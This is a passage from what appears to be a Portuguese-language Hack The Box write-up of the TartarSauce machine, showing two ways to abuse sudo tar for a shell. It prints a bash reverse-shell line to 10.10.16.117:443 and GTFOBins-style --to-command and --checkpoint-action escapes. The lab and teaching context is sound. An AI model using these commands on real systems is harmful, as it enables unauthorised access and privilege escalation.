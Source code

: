 ## 1º Modo de explorar TAR -> --to-command

O primeiro modo é tomar vantagem da possibilidade de enviarmos saidas de arquivos zipados para outros arquivos. Se pensarmos assim podemos "zipar" um comando de shell, e mandar ele para o /bin/bash... não? Vamos lá então

Primeiro fazemos um "shell" e colocamos ele em um arquivo tar

echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.16.117/443 0>&1' > shell.sh

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tartarsauce/T_tar.png)

Agora zipamos ele com o tar

tar -cvf shell.tar shell.sh

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tartarsauce/T_tar1.png)

Agora é só rodar o `tar` com a opção `--to-command`. Ele passar o arquivo que está zipado para algum binário, no caso /bin/bash, vai executar e me dar um shell

sudo -u onuma tar -xvf shell.tar --to-command /bin/bash

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tartarsauce/T_tar2.png)

## 2º Modo de explorar TAR --> --checkpoint-action

Esse é mais simples, pq o comando é em uma linha só, o que de certo modo facilita a exploração. Vamo lá!

A flag `checkpoint=y` diz pro TAR executar algo a cada y bytes, conforme for indo o progresso do zip. Por padrão é uma mensagem na tela, mas posso alterar isso pra o que eu quiser... hummmmmmmm, posso mandar /bin/bash? Sim!

O comando fica assim

sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tartarsauce/T_tar4.png)

Isso está no `gtfobins`, é o caso ter esse tipo de site sempre na manga

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tartarsauce/T_gt.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tartarsauce/T_gt1.png)

# Escalação de Privilégio --> Root

Agora com um usuário comum na máquina, vamos iniciar a escalação pra root

Bom, rodamos o linpeas e não tivemos muito sucesso... (o ponto de escalação estava lá, mas não era tão simples de se perceber assim)

Então próximo passo é rodar o pspy
